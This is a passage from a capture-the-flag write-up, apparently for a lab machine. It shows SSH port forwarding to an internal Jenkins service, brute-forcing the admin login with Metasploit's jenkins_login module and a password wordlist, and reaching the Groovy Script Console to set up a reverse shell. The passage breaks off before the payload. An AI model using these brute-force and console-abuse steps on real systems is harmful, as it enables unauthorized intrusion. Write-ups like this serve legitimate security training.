 So, since we now own credentials and `ssh` service is running, let's port forward the `8080` port with `ssh`.

```bash
❯ ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.27.35
```
### Port 8080 Enumeration

Once with the **Jenkins** service accessible from our machine, let's access it via browser: `http://localhost:8080`.

After accessing, as expected we found a **Jenkins** login form.

![Desktop View](InternalJenkinsMainPage.png)
 
I tried all the credentials that we have found, but none of them work, i also tried the default credentials for **Jenkins**: `admin:password`, nothing. 

The `admin` user is usually worth trying to brute-force, so let's try it, i find it quite convenient to use the metasploit module `auxiliary/scanner/http/jenkins_login`.

Let's start configuring the module.

```bash
❯ msfconsole
msf6 > use auxiliary/scanner/http/jenkins_login
msf6 auxiliary(scanner/http/jenkins_login) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(scanner/http/jenkins_login) > set username admin
username => admin        
msf6 auxiliary(scanner/http/jenkins_login) > set pass_file /usr/share/wordlists/rockyou.txt
pass_file => //usr/share/wordlists/rockyou.txt
```

Once with the module configured, let's run it.

```bash
msf6 auxiliary(scanner/http/jenkins_login) > run
[+] 127.0.0.1:8080 - Login Successful: admin:sp*****ob
[*] Scanned 1 of 1 hosts (100% complete)
```

Bingo, we found valid credentials, so let's log in.

![Desktop View](InternalJenkinsDashboard.png)

Once in the dashboard, **Jenkins** allow authenticated users to run **Groovy scripts**, so we can try to engage a reverse shell, using a **Groovy** payload.

In order to access the field where we can execute **Groovy scripts** we can follow the next steps: **Manage Jenkins** -> **Scripts Console** and we should see a field asking us execute **Groovy scripts**.

![Desktop View](InternalGroovyScript.png)

We can now set a listener and execute the next **Groovy payload** and we should get a reverse shell.
